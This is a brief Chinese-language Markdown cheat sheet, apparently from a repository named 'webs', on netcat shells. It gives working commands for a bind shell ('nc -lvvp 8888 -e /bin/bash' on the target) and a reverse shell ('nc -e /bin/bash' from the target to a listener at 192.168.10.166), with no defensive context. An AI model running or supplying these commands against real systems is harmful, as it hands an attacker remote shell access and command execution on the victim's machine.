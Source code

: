 # webs

## 反弹shell

### nc

#### 正向

目标主机

```shell
nc -lvvp 8888 -e /bin/bash
```

测试主机

```shell
nc 192.168.10.1 8888
```

#### 反向

测试主机

```shell
nc -l 8888
```

目标主机

```shell
nc -e /bin/bash 192.168.10.166 8888
```
